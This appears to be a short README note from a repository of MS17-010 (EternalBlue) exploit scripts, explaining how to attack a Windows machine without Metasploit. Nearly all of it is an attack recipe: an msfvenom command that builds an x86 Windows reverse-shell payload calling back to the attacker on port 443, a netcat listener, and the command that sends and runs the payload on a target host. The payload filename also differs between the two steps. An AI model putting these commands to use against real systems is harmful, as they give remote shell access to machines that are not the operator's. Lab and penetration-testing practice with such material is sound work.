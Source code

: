 # Notes

If we want to attack a machine without metasploit, we can use these scripts.
This also has the upside of allowing us to target x86 systems.
The script is originally python2, which is the reason for the manual handling of mysmb.py.

do:

* `pipenv install impacket`
* generate payload with: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010-shell.exe`
* run `nc -nvlp 443`
* execute payload with `pipenv run python send_and_execute.py ${RHOST} ms17-010.exe`
